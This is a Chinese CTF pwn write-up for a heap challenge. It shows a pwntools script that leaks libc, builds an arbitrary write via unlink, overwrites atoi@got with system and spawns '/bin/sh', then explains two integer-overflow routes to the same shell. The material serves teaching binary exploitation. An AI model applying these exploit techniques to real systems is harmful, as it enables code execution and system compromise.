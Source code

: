     # 任意地址写，通过edit chunk2_ptr来修改chunk0_ptr的指向，再通过edit chunk0_ptr修改chunk0_ptr指向的值。
    def write(where,what):
        edit(2, p64(where))
        edit(0, p64(what))
    # 获取libc基址
    libc = ELF('./libc-2.23.so')
    libc_base = puts_addr - libc.symbols['puts']
    log.success('libc base: ' + hex(libc_base))
    # 获取system函数地址
    sys_addr = libc_base + libc.symbols['system']
    log.success('sys_addr: ' + hex(sys_addr))
    # 将atio@got值改为system函数地址
    write(elf.got['atoi'], sys_addr)
    # 因为atoi改为了system,输入选项时输入"/bin/sh",会执行system("/bin/sh")
    p.sendlineafter('option--->>','/bin/sh\x00')
    p.interactive()
    

执行结果如图所示

![](https://img2022.cnblogs.com/blog/2419541/202210/2419541-20221001220928551-666552588.png)

方法2：编辑时整数溢出
-----------

下图为向块写入时的功能函数，这里变量`i`定义为`unsigned __int64`类型，在第`7`行，当`a2`为`0`时，`a2-1`就会变得"无限大"，从而可以无限制写入数据，溢出到下一个块，利用unlink漏洞实现任意地址写，进而拿到系统shell。

![](https://img2022.cnblogs.com/blog/2419541/202210/2419541-20221001220939979-814395612.png)

方法3：输入索引整数溢出
------------

在edit功能内，调用`read_num_4009B9()`让用户输入索引，利用求余使索引小于`7`。

![](https://img2022.cnblogs.com/blog/2419541/202210/2419541-20221001221020745-1385655086.png)

进入`read_num_4009B9()`函数内，可以看到程序对用户输入进行了判断，若小于`0`则取相反数。

![](https://img2022.cnblogs.com/blog/2419541/202210/2419541-20221001221027385-363621781.png)

漏洞就出现在，当用户输入的为最大负整数(即-9223372036854775808)，内存中十六进制表示为`0x8000000000000000`，取相反数过程为`-x=~x+1`，即`0x7fffffffffffffff+1=0x8000000000000000`，**在计算机表示中最大负整数的相反数还是最大负整数**！

当`v0`为最大负整数，则`v0%7>=v0`的条件也能被满足，且结果`v3`为`-1`，这将向`ptr[-1]`指向的地址写入内容，而`ptr[-1]`指向的地址为最近操作过的块的地址。而写入的大小为`qword_6020C0[-1+8]`，即`ptr[6]`，其为`i=6`块的地址，即可以写入"无限"多的数据，溢出到下一块实现unlink，进一步实现任意地址写、函数地址泄露、构造执行`system("/bin/sh")`，拿到shell。